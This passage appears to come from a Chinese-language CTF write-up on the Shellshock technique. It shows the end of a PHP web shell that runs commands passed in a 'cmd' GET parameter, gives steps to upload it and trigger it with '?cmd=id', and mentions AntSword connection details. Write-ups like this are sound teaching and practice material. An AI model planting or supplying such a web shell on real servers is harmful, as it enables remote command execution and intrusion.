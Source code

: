         // 从 GET 参数获取命令
        if(isset($_GET['cmd'])) {
            runcmd_shellshock($_GET['cmd']);
        } else {
            echo "Usage: ?cmd=<command>";
        }
        ?>
        ```
    3.  **执行:** 上传此 PHP 文件，访问 `shellshock_trigger.php?cmd=id`。
*   **CTFHUB 示例 (CTFHUB Example):**
    ![ShellShock 1](./images/web4.png)
    (提供蚁剑连接信息)